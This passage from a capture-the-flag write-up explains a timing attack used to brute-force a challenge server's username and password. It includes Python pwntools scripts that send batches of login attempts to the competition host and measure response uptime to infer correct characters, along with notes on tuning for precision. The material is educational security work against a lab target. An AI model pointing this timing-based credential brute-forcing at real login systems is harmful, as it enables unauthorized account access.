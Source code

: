 ```python
    total = {}
    # for c in CHARS:
    #     t = test('?' + (c * 50))
    #     print(t)
    #     total.update(t)

    for i in range(0,len(CHARS),10):
        t = test('?' + (CHARS[i:i+10] * 50))
        print(t)
        total.update(t)

    return total

total = test_all()

sc = [(k, total[k]) for k in total]
sc = sorted(sc, key=lambda x:x[1])[::-1]

for s in sc:
    print(s)
```

Basically, what we're doing here is creating a connection, and querying a single character as the password multiple times. In each connection, we query 10 characters 50 times each.

Some optimizations we made:

- We send the payload all at once in order to remove network latency. Because we're performing a timing attack, doing this is crucial.
- We send each character multiple times to account because runtime is nondeterministic.

Unfortunately, while this script seemed to work for the username, it didn't seem effective for the password.

We eventually realized that this wasn't a result of a faulty method, but rather that we were just lacking precision.

If you look carefully, you'll see that the script queries 10 distinct characters per connection. Furthermore, it queries them sequentially - that is, it will query `a`, then `b`, then `c` and so on before querying `a` again. While this shouldn't really affect anything in theory, it seemed to be affecting our results.

To remedy this, we instead only query one character per connection, and we increase the number of queries per character up to 100 from 50. This led to drastically more consistent results:

```python
from pwn import *
import string

context.log_level = "error"

CHARS = "_abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!"
CHARS += "".join([x for x in string.printable if x not in CHARS and x not in string.whitespace])

def test(username, password, n=100):
    p = remote('avr.2020.ctfcompetition.com', 1337)
    pl = ""
    pl += "\n"
    pl += f"{username} {password}\n" * n
    p.sendlineafter("to continue.\n", pl)
    data = p.recvn(n * 60).decode("utf8")
    times = [int(l.split(": ")[1].split("us")[0]) for l in data.split("\n") if "Uptime" in l]
    diffs = []
    for i in range(1, len(times)):
        diffs.append(times[i] - times[i - 1])
    return sum(diffs)

```
